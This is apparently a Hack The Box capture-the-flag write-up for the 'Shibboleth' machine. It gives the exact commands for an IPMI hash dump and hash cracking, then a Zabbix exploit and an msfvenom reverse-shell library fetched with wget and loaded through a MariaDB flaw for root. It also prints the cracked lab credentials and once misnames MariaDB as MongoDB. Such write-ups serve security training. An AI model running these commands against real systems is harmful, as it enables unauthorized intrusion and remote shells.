# [Shibboleth](https://app.hackthebox.com/machines/Shibboleth)

```bash
nmap -p- -min-rate 10000 10.10.11.124 -Pn 
```



We just know that port (80) is only open, let's do greater nmap scan for this port.

```bash
nmap -A -sC -sV -p80 10.10.11.124 -Pn 
```



There is resolving into 'shibboleth.htb', let's add into '/etc/hosts' file.


Let's do Subdomain Enumeration via `wfuzz` tool.

```bash
wfuzz -u http://shibboleth.htb -H "Host: FUZZ.shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --sc 200
```



Let's add these also into '/etc/hosts' file.




I also do nmap scan for 'UDP' ports.




Port (623) is open, let's enumerate this via `msfconsole`. For this, I will use such an exploit 'use auxiliary/scanner/ipmi/ipmi_dumphashes'




I found hash of 'Administrator', let's crack this via `hashcat` tool.

```bash
hashcat -m 7300 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```




I have below sensitive credentials.

Administrator: ilovepumkinpie1


For 'http://zabbix.shibboleth.htb/', I login via above credentials.




I search publicly known exploit and find [this](https://www.exploit-db.com/exploits/50816)

```bash
python3 50816.py http://zabbix.shibboleth.htb Administrator ilovepumkinpie1 10.10.16.8 1337
```




I got reverse shell from port (1337).




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




I don't have permission to read 'user.txt' file.



I just try to switch with same password as before for 'ipmi-svc' user.

ipmi-svc: ilovepumkinpie1

user.txt




By running `netstat -ntpl`, I see that for port (3306) , mysql database is running.




I found cleartext credentials from '/etc/zabbix/zabbix_server.conf' file.




zabbix: bloooarskybluh


Let's login into our mysql shell via this credentials..
```bash
mysql -u zabbix -pbloooarskybluh
```


I see that version of MariaDB is '10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04'.




I found CVE for this version of MongoDB, whose id is **'CVE-2021-27928'**.


First, let's generate malicious '.so' file.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=1338 -f elf-so -o dr4ks.so
```

Then, upload this file into target machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080
```



We download a file from http server.

```bash
wget http://10.10.16.8:8080/dr4ks.so
```




Then, access to shell and type this.

```bash
SET GLOBAL wsrep_provider="/home/ipmi-svc/dr4ks.so";
```




I got reverse shell from port (1338).




root.txt

